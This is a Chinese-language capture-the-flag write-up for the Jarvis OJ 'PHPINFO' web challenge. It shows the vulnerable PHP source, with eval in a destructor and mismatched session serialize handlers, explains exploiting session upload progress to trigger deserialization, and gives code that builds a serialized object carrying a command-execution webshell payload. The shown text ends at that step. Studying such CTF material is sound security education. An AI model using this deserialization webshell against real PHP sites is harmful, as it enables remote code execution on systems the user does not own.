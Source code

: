 ```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }

    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('index.php'));
}
?>
```

<http://web.jarvisoj.com:32784/>

1. 存在恶意类`OowoO`，析构方法中存在代码执行漏洞
2. 通过 `phpinfo()` 可知：

- _`session.upload_progress.enabled=On`_，可用文件上传在`session`中写入数据
- _`session.serialize_handler`_ 的默认值为`php_serialize`，脚本运行时配置为`php`，**处理器不一致**

3. 我们可通过文件上传控制`session`文件内容，进而实现`session`反序列化漏洞攻击



例题：Jarvis OJ — PHPINFO 解题步骤

1. 生成`payload`

```php
<?php
class OowoO{
    public $mdzz = '?><?=`$GET["cmd"]`';
}
$obj  = new OowoO();
echo serialize($obj);
// O:5:"OowoO":1:{s:4:"mdzz";s:18:"?><?=`$GET["cmd"]`";}
?>
```
